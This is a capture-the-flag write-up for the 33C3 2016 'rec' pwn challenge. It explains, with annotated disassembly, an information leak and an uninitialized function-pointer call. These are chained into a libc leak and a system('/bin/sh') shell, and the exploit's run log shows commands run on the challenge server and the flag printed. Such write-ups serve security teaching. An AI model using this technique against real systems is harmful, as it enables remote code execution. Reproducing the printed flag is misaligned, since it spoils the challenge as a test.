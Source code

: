 ## 33C3 CTF 2016 - rec (Pwn 200pt)
##### 27-29/12/2016 (48hr)
___
### Description
rec enables corruption! nc 78.46.224.74 4127
___
### Solution

Rec was a simple calculator:
```	
	Calculators are fun!
	0 - Take note
	1 - Read note
	2 - Polish
	3 - Infix
	4 - Reverse Polish
	5 - Sign
	6 - Exit
	> 
```

PIE is enabled, which makes exploitation more challenging:
```
ispo@nogirl:~/ctf/33c3_16$ /opt/checksec.sh --file rec_7743d76881fe811335ca25d8b0a3c5f54a21e2f1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   rec_7743d76881fe811335ca25d8b0a3c5f54a21e2f1
```

2 bugs were presented. The first one was an information leak on "read note":
```
	> 1
	Your note: �����VUV`����`UV
```

From here we can leak an address from .text which is needed to bypass PIE. The 2nd bug is on Sign
operation:
```assembly
.text:56555D10     call    atoi_56582540
.text:56555D15     add     esp, 10h
.text:56555D18     mov     [ebp+var_1C], eax
.text:56555D1B     cmp     [ebp+var_1C], 0
.text:56555D1F     jle     short loc_56555D2C          ; if positive, jump to positive
.text:56555D21     lea     eax, (positive_56596C85 - 56557FB8h)[ebx]
.text:56555D27     mov     [ebp+funcptr_20], eax
.text:56555D2A     jmp     short loc_56555D3B
.text:56555D2C ; ---------------------------------------------------------------------------
.text:56555D2C
.text:56555D2C loc_56555D2C:                           ; CODE XREF: sign_internal_56596CDB+44j
.text:56555D2C     cmp     [ebp+var_1C], 0
.text:56555D30     jns     short loc_56555D3B          ; if negative, jump to negative
.text:56555D32     lea     eax, (negative_56582CB0 - 56557FB8h)[ebx]
.text:56555D38     mov     [ebp+funcptr_20], eax
.text:56555D3B
.text:56555D3B loc_56555D3B:                           ; CODE XREF: sign_internal_56596CDB+4Fj
.text:56555D3B                                         ; sign_internal_56596CDB+55j
.text:56555D3B     mov     eax, [ebp+funcptr_20]
.text:56555D3E     call    eax                         ; if 0, then segfault
.text:56555D40     nop
.text:56555D41     mov     eax, [ebp+var_C]
.text:56555D44     xor     eax, large gs:14h
.text:56555D4B     jz      short loc_56555D52
.text:56555D4D     call    check_canary_56583030
.text:56555D52
.text:56555D52 loc_56555D52:                           ; CODE XREF: sign_internal_56596CDB+70j
.text:56555D52     mov     ebx, [ebp+var_4]
.text:56555D55     leave
.text:56555D56     retn
.text:56555D56 sign_internal_56596CDB endp
```

As you can see the funcptr_20 is not set when the result from atoi is 0. This means that program
tries to call this function pointer which is uninitialized. The goal here is to somehow control
the dead memory of funcptr and then trigger it. Polish option has a hidden operation 'S', which
adds a bunch of numbers until '.' is entered:
```assembly
.text:56555B36 SUM_LOOP_56555B36:                      ; CODE XREF: polish_56582AA3+E2j
.text:56555B36     sub     esp, 8                      ; move stack upwards
.text:56555B39     push    [ebp+int_1_2C]
.text:56555B3C     push    [ebp+int_1_2C]
.text:56555B3F     mov     eax, [ebp+fptr_24]
.text:56555B42     call    eax                         ; get previous operand
.text:56555B44     add     esp, 8
.text:56555B47     add     [ebp+sum_28], eax
.text:56555B4A     sub     esp, 0Ch
.text:56555B4D     lea     eax, (aOperand - 56557FB8h)[ebx] ; "Operand: "
.text:56555B53     push    eax
.text:56555B54     call    printf_56582500
.text:56555B59     add     esp, 10h
.text:56555B5C     sub     esp, 8
.text:56555B5F     push    0Ch
.text:56555B61     lea     eax, [ebp+operand_18]
.text:56555B64     push    eax
.text:56555B65     call    get_str_565826C0
.text:56555B6A     add     esp, 10h
.text:56555B6D     sub     esp, 0Ch
.text:56555B70     lea     eax, [ebp+operand_18]
.text:56555B73     push    eax
.text:56555B74     call    atoi_56582540
.text:56555B79     add     esp, 10h
.text:56555B7C     mov     [ebp+int_1_2C], eax
.text:56555B7F
.text:56555B7F loc_56555B7F:                           ; CODE XREF: polish_56582AA3+91j
.text:56555B7F     movzx   eax, [ebp+operand_18]
.text:56555B83     cmp     al, 2Eh                     ; operand == '.' ?
.text:56555B85     jnz     short SUM_LOOP_56555B36     ; move stack upwards
```

The problem here is that stack goes upward each time we add a number. This way, if we add many
numbers, we can set the "dead" memory of funcptr from sign operation. So, all we have to do, is
to add some dummy numbers to fill up the gap up to funcptr, and then add 2 more numbers: an 
argument and the function address that we want to call.

We have leaked an address so, our first goal is to leak an address from libc. We make a call to
plt.printf and we set the argument of .got.printf. This way we can get the address of printf in
libc. Then we use the libc-database tool, to find the address of system() and the address of 
/bin/sh. Finally, we make another call (using the Polish/Sign) to system() with argument /bin/sh
and we get a shell. Take a look at the exploit file for more information.

```
ispo@nogirl:~/ctf/33c3_16$ ./rec_expl.py 
[+] .text  address: 0x565d36fb
[+] .libc.printf at: 0xf759d830
[+] .libc.system at: 0xf758e8b0
[+] /bin/sh      at: 0xf76b0bcf
[+] opening shell ...
	id
		uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
	ls
		bin
		boot
		challenge
		dev
		etc
		home
		initrd.img
		initrd.img.old
		lib
		lib32
		lib64
		libx32
		lost+found
		media
		mnt
		opt
		proc
		root
		run
		sbin
		srv
		sys
		tmp
		usr
		var
		vmlinuz
		vmlinuz.old
	ls /home
		challenge
	ls /home/challenge
		flag.txt
		run.sh
	cat /home/challenge/flag.txt
		33c3_DummyFlag
	ls challenge -l    
		total 16
		-rw-r--r-- 1 root root      31 Dec 27 18:53 flag
		-rwxr-xr-x 1 root nogroup 9564 Dec 27 19:18 rec
	cat challenge/flag
		33C3_L0rd_Nikon_would_l3t_u_1n
	exit
	0 - Take note
	1 - Read note
	2 - Polish
	3 - Infix
	4 - Reverse Polish
	5 - Sign
	6 - Exit
	> ^CTraceback (most recent call last):
	  File "./rec_expl.py", line 115, in <module>
	    t.interact()
	  File "/usr/lib/python2.7/telnetlib.py", line 591, in interact
	    rfd, wfd, xfd = select.select([self, sys.stdin], [], [])
	KeyboardInterrupt
```

___